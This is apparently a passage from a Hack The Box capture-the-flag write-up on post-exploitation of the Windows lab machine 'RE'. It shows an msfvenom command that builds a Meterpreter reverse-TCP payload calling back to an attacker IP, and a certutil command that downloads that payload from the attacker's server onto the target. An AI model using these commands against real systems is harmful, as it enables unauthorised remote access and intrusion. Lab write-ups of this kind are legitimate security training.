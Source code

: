 I have SYSTEM but I can't read the flag:

```
C:\Users\Administrator\Desktop>icacls root.txt
root.txt NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         RE\Administrator:(I)(F)
         RE\coby:(I)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.
```

I also lose my shell after a few seconds because the process doesn't respond to the service manager so it gets terminated.

I'm going to drop a Meterpreter payload on the box, run it as SYSTEM and quickly migrate to a new process so I don't lose the shell:

```
# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o met.exe LHOST=10.10.16.9 LPORT=4444

C:\Windows\System32\spool\drivers\color>certutil -urlcache -f http://10.10.16.9/met.exe met.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

![](/assets/images/htb-writeup-re/msf.png)

